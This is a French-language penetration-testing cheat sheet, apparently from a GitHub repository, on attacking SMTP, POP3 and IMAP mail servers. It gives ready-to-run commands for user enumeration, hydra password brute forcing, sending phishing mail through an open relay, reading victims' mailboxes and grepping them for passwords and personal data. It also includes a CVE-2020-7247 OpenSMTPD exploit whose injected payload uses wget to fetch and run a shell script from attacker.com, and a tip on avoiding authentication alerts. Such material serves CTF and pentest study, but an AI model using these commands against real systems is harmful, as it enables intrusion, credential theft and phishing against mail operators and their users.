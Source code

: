 # SMTP/POP3/IMAP (25,110,143/TCP)

Les services de messagerie permettent l'envoi (SMTP) et la réception (POP3/IMAP) d'emails.
## 🔍 Énumération
### Scan de base
```bash
# Scan des ports email
sudo nmap -sV -p 25,110,143,465,587,993,995 $IP

# Scripts Nmap spécifiques
nmap --script=smtp-* -p 25,465,587 $IP
nmap --script=pop3-* -p 110,995 $IP
nmap --script=imap-* -p 143,993 $IP
```
### Identification des MX records
```bash
# Recherche des enregistrements MX pour un domaine
host -t MX domain.com
dig mx domain.com | grep "MX" | grep -v ";"
```
### Récupération de bannière
```bash
# SMTP
nc -vn $IP 25

# POP3
nc -vn $IP 110

# IMAP
nc -vn $IP 143
```
## 🔨 Exploitation
### Énumération d'utilisateurs
```bash
# Commande VRFY en SMTP
telnet $IP 25
VRFY root
VRFY admin

# Commande RCPT TO
telnet $IP 25
MAIL FROM:test@example.com
RCPT TO:admin

# Automatisation avec smtp-user-enum
smtp-user-enum -M VRFY -U users.txt -D domain.com -t $IP
smtp-user-enum -M RCPT -U users.txt -D domain.com -t $IP
```
### Authentification par force brute
```bash
# SMTP
hydra -l [user] -P /usr/share/wordlists/rockyou.txt $IP smtp

# POP3
hydra -l [user] -P /usr/share/wordlists/rockyou.txt $IP pop3

# IMAP
hydra -l [user] -P /usr/share/wordlists/rockyou.txt $IP imap
```
### Relais SMTP (Open Relay)
```bash
# Test de relais ouvert
nmap -p25 --script smtp-open-relay $IP

# Envoi d'email via relais ouvert
swaks --from attacker@example.com --to victim@example.com \
  --header 'Subject: Important Security Update' \
  --body 'Please click: http://malicious.com' \
  --server $IP
```
### Accès aux emails
```bash
# POP3 - Lister et récupérer des emails
telnet $IP 110
USER username
PASS password
LIST
RETR 1

# IMAP - Lister et récupérer des emails
telnet $IP 143
a LOGIN username password
a LIST "" "*"
a SELECT INBOX
a FETCH 1 BODY[]
```
## 🔐 Post-exploitation

### Recherche d'informations sensibles
```bash
# Rechercher des mots de passe, informations PII dans les emails
grep -i -E "password|credential|username|ssn|credit.?card" emails.txt

# Rechercher des liens de réinitialisation de mot de passe
grep -i "reset|recover|password" emails.txt
```
### Exploitation de vulnérabilités spécifiques
```bash
# CVE-2020-7247 (OpenSMTPD RCE)
# Exploitation de la vulnérabilité OpenSMTPD
nc $IP 25
HELO test
MAIL FROM:<;for i in $(seq 1 100);do read;done;sh;exit 0;>
RCPT TO:<root>
DATA
cd /tmp
wget http://attacker.com/shell.sh
chmod +x shell.sh
./shell.sh
.
```
## ⚠️ Erreurs courantes & astuces
- Beaucoup de serveurs SMTP limitent les commandes VRFY/EXPN
- Les serveurs modernes ont souvent une protection anti-relay
- Vérifiez les ports alternatifs (587, 465) si 25 est bloqué
- Les services cloud (O365, Gmail) ont souvent des protections supplémentaires

### Techniques d'énumération SMTP tirées de CTFs réels
#### Énumération d'utilisateurs via SMTP VRFY (Reel)
Le protocole SMTP peut être utilisé pour valider l'existence d'utilisateurs:
```bash
# Connexion manuelle au serveur SMTP
nc -nv 10.10.10.x 25

# Commandes SMTP pour l'énumération
HELO example.com
MAIL FROM: <attacker@example.com>
RCPT TO: <utilisateur@domaine.cible>
```
Si l'utilisateur existe, vous recevrez une réponse "250 OK". Sinon, "550 Unknown user".
Cette technique permet de valider des listes d'utilisateurs potentiels sans déclencher d'alertes de tentatives d'authentification échouées.
#### Énumération SMTP automatisée
Utilisation d'outils spécialisés pour automatiser l'énumération:
```bash
# Avec smtp-user-enum
smtp-user-enum -M VRFY -U userlist.txt -t 10.10.10.x

# Avec metasploit
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS 10.10.10.x
set USER_FILE /path/to/userlist.txt
run
```
L'avantage de cette méthode est qu'elle est souvent négligée dans la sécurisation des environnements, car les administrateurs se concentrent davantage sur les protocoles d'authentification comme SMB ou RDP.